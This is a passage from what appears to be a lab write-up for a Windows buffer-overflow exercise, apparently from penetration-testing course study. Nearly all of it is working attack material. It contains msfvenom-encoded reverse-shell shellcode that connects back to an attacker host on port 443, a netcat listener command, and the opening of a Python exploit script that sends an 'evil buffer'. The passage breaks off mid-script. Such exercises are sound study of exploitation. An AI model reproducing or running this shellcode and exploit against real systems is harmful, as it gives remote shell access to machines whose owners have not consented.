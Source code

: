 ```plaintext
"\xfb\x59\xde\xf1\xb2\x41\x03\x3f\x0c\xfa\xf7\xcb\x8f\x2a\xc6"
"\x34\x23\x13\xe6\xc6\x3d\x54\xc1\x38\x48\xac\x31\xc4\x4b\x6b"
"\x4b\x12\xd9\x6f\xeb\xd1\x79\x4b\x0d\x35\x1f\x18\x01\xf2\x6b"
"\x46\x06\x05\xbf\xfd\x32\x8e\x3e\xd1\xb2\xd4\x64\xf5\x9f\x8f"
"\x05\xac\x45\x61\x39\xae\x25\xde\x9f\xa5\xc8\x0b\x92\xe4\x84"
"\xf8\x9f\x16\x55\x97\xa8\x65\x67\x38\x03\xe1\xcb\xb1\x8d\xf6"
"\x2c\xe8\x6a\x68\xd3\x13\x8b\xa1\x10\x47\xdb\xd9\xb1\xe8\xb0"
"\x19\x3d\x3d\x16\x49\x91\xee\xd7\x39\x51\x5f\xb0\x53\x5e\x80"
"\xa0\x5c\xb4\xa9\x4b\xa7\x5f\x16\x23\xd0\x49\xfe\x36\x1e\x77"
"\x44\xbf\xf8\x1d\xaa\x96\x53\x8a\x53\xb3\x2f\x2b\x9b\x69\x4a"
"\x6b\x17\x9e\xab\x22\xd0\xeb\xbf\xd3\x10\xa6\x9d\x72\x2e\x1c"
"\x89\x19\xbd\xfb\x49\x57\xde\x53\x1e\x30\x10\xaa\xca\xac\x0b"
"\x04\xe8\x2c\xcd\x6f\xa8\xea\x2e\x71\x31\x7e\x0a\x55\x21\x46"
"\x93\xd1\x15\x16\xc2\x8f\xc3\xd0\xbc\x61\xbd\x8a\x13\x28\x29"
"\x4a\x58\xeb\x2f\x53\xb5\x9d\xcf\xe2\x60\xd8\xf0\xcb\xe4\xec"
"\x89\x31\x95\x13\x40\xf2\xa5\x59\xc8\x53\x2e\x04\x99\xe1\x33"
"\xb7\x74\x25\x4a\x34\x7c\xd6\xa9\x24\xf5\xd3\xf6\xe2\xe6\xa9"
"\x67\x87\x08\x1d\x87\x82";
```

Start a netcat listener
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (you can have a breakpoint on it, but you'll have to step through the code before you get a shell). In my case, I just launched the app and didn't open the debugger. Here is the code:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 6_add_shellcode_yes_nops.py 
#!/usr/bin/python
import socket

# msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\xc5"
shellcode = ("\xba\x50\x3e\xd8\x88\xdb\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x83\xc3\x04\x31\x53\x0e\x03\x03\x30\x3a\x7d\x5f\xa4\x38"
"\x7e\x9f\x35\x5d\xf6\x7a\x04\x5d\x6c\x0f\x37\x6d\xe6\x5d\xb4"
"\x06\xaa\x75\x4f\x6a\x63\x7a\xf8\xc1\x55\xb5\xf9\x7a\xa5\xd4"
"\x79\x81\xfa\x36\x43\x4a\x0f\x37\x84\xb7\xe2\x65\x5d\xb3\x51"
"\x99\xea\x89\x69\x12\xa0\x1c\xea\xc7\x71\x1e\xdb\x56\x09\x79"
"\xfb\x59\xde\xf1\xb2\x41\x03\x3f\x0c\xfa\xf7\xcb\x8f\x2a\xc6"
"\x34\x23\x13\xe6\xc6\x3d\x54\xc1\x38\x48\xac\x31\xc4\x4b\x6b"
"\x4b\x12\xd9\x6f\xeb\xd1\x79\x4b\x0d\x35\x1f\x18\x01\xf2\x6b"
"\x46\x06\x05\xbf\xfd\x32\x8e\x3e\xd1\xb2\xd4\x64\xf5\x9f\x8f"
"\x05\xac\x45\x61\x39\xae\x25\xde\x9f\xa5\xc8\x0b\x92\xe4\x84"
"\xf8\x9f\x16\x55\x97\xa8\x65\x67\x38\x03\xe1\xcb\xb1\x8d\xf6"
"\x2c\xe8\x6a\x68\xd3\x13\x8b\xa1\x10\x47\xdb\xd9\xb1\xe8\xb0"
"\x19\x3d\x3d\x16\x49\x91\xee\xd7\x39\x51\x5f\xb0\x53\x5e\x80"
"\xa0\x5c\xb4\xa9\x4b\xa7\x5f\x16\x23\xd0\x49\xfe\x36\x1e\x77"
"\x44\xbf\xf8\x1d\xaa\x96\x53\x8a\x53\xb3\x2f\x2b\x9b\x69\x4a"
"\x6b\x17\x9e\xab\x22\xd0\xeb\xbf\xd3\x10\xa6\x9d\x72\x2e\x1c"
"\x89\x19\xbd\xfb\x49\x57\xde\x53\x1e\x30\x10\xaa\xca\xac\x0b"
"\x04\xe8\x2c\xcd\x6f\xa8\xea\x2e\x71\x31\x7e\x0a\x55\x21\x46"
"\x93\xd1\x15\x16\xc2\x8f\xc3\xd0\xbc\x61\xbd\x8a\x13\x28\x29"
"\x4a\x58\xeb\x2f\x53\xb5\x9d\xcf\xe2\x60\xd8\xf0\xcb\xe4\xec"
"\x89\x31\x95\x13\x40\xf2\xa5\x59\xc8\x53\x2e\x04\x99\xe1\x33"
"\xb7\x74\x25\x4a\x34\x7c\xd6\xa9\x24\xf5\xd3\xf6\xe2\xe6\xa9"
"\x67\x87\x08\x1d\x87\x82")

try:
  print "\nSending evil buffer..."
```